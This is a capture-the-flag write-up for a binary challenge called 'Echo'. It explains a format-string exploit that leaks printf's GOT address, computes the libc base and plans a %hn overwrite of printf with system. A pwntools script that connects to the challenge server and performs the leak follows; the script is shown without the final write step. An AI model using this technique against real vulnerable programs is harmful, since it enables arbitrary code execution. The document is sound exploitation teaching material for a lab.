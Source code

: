 ## Solution

### Echo

By analyzing the ELF file with `checksec` we can notice that there NX enabled, Partial RELRO, no canary and no PIE. This means that the .got section is writable and additionally we do not have to deal with different addresses when the file loads in memory. To replace the `printf` function with the `system` function we need to know the address of both functions. First, we need to retrieve the libc base address and then calculate their addresses by adding the padding (this cannot be done statically because our libc has PIE enabled).

To retrieve the libc base address we can leak the address of a known function (`printf`). To do so we can place an address on the stack (in our case the GOT address of `printf`) and then use the `%s` format string to dereference that address. In our case printf reads from the sixth location on the stack, so by providing the string `%7$s    address` we can leak the address of `printf`. Note that a 4 space padding after the format string is needed to align the input since `%s` reads 8 bytes (64 bit architecture). We need to notice that the address is in little endian format, so we need to convert it to big endian.

Now we can calculate the base address of libc and the address of `system`. The last thing to do is to build the payload. We can notice the address of `printf` and `system` most of the times differs by only 4bytes, so we can change only those. The idea is to utilize the `%hn` format string that, basically, counts the number of characters printed so far and writes that number to the pointed address. The resulting payload is the following: `%{last_two_bytes_system}X%8$hn{'A'*padding} + {printf_got_address}. We need also some padding to align the printg got address with the next memory address.
 
```python
from pwn import * 

# p = process("./bin", env={"LD_PRELOAD": "./libc.so.6"})
# p = gdb.debug(
#     "./bin",
#     """
#     break main
#     continue
#     """,
#     env={"LD_PRELOAD": "./libc.so.6"}
#     )
p = remote('cyberchallenge.disi.unitn.it', 50230)

def little_to_big_endian(hex_str):
    hex_pairs = [hex_str[i:i+2] for i in range(0, len(hex_str), 2)]
    hex_pairs.reverse()
    big_endian_str = ''.join(hex_pairs)
    return big_endian_str

elf = ELF("./bin")
libc = ELF("./libc.so.6")
context.binary = elf

printf_offset = libc.symbols["printf"]

p.sendlineafter(b"> ", b'%7$s    ' + p64(elf.got["printf"]))
printf_address = little_to_big_endian(p.recvuntil(b'> ').split(b' ')[0].hex())
libc_base = int(printf_address, 16) - printf_offset
libc.address = libc_base

system_address = hex(libc.symbols["system"])
printf_got_address = elf.got['printf']

system_pairs = [system_address[i:i+2] for i in range(0, len(system_address), 2)]
last_two_bytes_system = int(''.join(system_pairs[-2:]), 16)
print(last_two_bytes_system)

```